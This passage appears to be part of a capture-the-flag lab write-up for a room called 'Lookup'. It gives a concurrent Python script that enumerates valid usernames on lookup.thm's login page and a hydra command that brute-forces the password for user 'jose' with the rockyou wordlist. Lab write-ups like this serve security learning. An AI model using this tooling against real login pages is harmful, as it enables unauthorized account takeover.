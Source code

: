 ### User Enumeration

To get the username, I wrote a python script. The first version of it, was to slow and I'm not a patient person but a person who likes to code.
I rewrote it to run concurrent requests:

```python
import aiohttp
import asyncio
import sys

target = 'http://lookup.thm/login.php'
wordlist_path = sys.argv[1]
valid_usernames = []

async def send_request(sess, uname):
  form_data = {'username':uname.strip(), 'password':'test'}
  async with sess.post(target, data=form_data) as response:
    response_text = await response.text()
    if 'Wrong username' not in response_text:
      valid_usernames.append(uname.strip())

async def main():
  async with aiohttp.ClientSession() as sess:
    with open(wordlist_path, 'r') as wordlist:
      tasks = []
      for uname in wordlist:
        tasks.append(send_request(sess, uname))
      await asyncio.gather(*tasks)

asyncio.run(main())
print(f"Valid usernames: {valid_usernames}")
```

If you use my code here, keep in mind, you have to specify a wordlist!

{{<figure-dynamic
light-src="/images/lookup/light/userenum.png"
dark-src="/images/lookup/dark/userenum.png"
>}}

As can be seen in the screenshot, I ran my script with the `time` command. It took ~7 sec to find the valid usernames.
Pretty fast!

Ok. Now I got two usernames, one of them I already guessed and also tried to brutefoce.
I decided to handle the second username the same way, just to be safe.

## Foothold

First of first, I started to brute-force the website login.


```bash
hydra -l jose -P rockyou.txt -f lookup.thm http-form-post "/login.php:username=^USER^&password=^PASS^:Wrong"
```
